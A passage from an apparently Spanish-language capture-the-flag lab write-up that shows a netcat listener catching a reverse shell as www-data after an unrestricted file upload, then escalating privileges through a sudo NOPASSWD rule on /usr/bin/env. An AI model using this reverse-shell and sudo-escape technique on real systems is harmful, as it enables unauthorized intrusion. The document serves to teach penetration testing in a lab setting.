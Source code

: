 Preparé un **listener** en mi máquina con `netcat` luego, accedí al archivo malicioso desde el navegador, y al hacerlo se ejecutó el payload de la reverse shell, conectándose exitosamente a mi listener:

```bash
(zikuta㉿zikuta)-[~/Downloads]
└─$ nc -lvnp 4444                                         
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 48636
Linux c12adce9f850 6.12.13-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.13-1kali1 (2025-02-11) x86_64 GNU/Linux
 03:33:00 up 24 min,  0 user,  load average: 0.26, 4.90, 5.95
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Obtuve acceso a una **shell remota como el usuario www-data**, que es el usuario por defecto del servidor web. Desde aquí comenzó la fase de post-explotación y escalada de privilegios.

---
## Conclusión de esta fase

A través de una correcta fase de reconocimiento y enumeración, se detectó una vulnerabilidad clásica de **file upload sin restricciones reales**, que permitió la ejecución remota de comandos en el servidor. Este tipo de vulnerabilidad sigue siendo muy común en aplicaciones web mal diseñadas, y puede comprometer gravemente la seguridad del sistema si no se controla adecuadamente.

# Escalada de Privilegios

Después de conseguir acceso como el usuario web `www-data` a través de la subida de una reverse shell, la siguiente fase consiste en escalar privilegios hasta alcanzar el usuario `root`.

Ejecutamos `sudo -l`  Este comando muestra qué comandos puede ejecutar el usuario actual (`www-data`) usando `sudo`, y si necesita o no contraseña para ello.

```bash
$ sudo -l 
Matching Defaults entries for www-data on c12adce9f850:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on c12adce9f850:
    (daphne) NOPASSWD: /usr/bin/env
```

Este resultado es **clave**: significa que el usuario `www-data` puede ejecutar `/usr/bin/env` como si fuera `daphne`, **sin necesidad de contraseña**.

### ¿Qué es `env`?

El comando `env` ejecuta otro programa en un nuevo entorno. Si lo usamos así:

```bash
sudo -u daphne /usr/bin/env /bin/sh
whoami
daphne
```
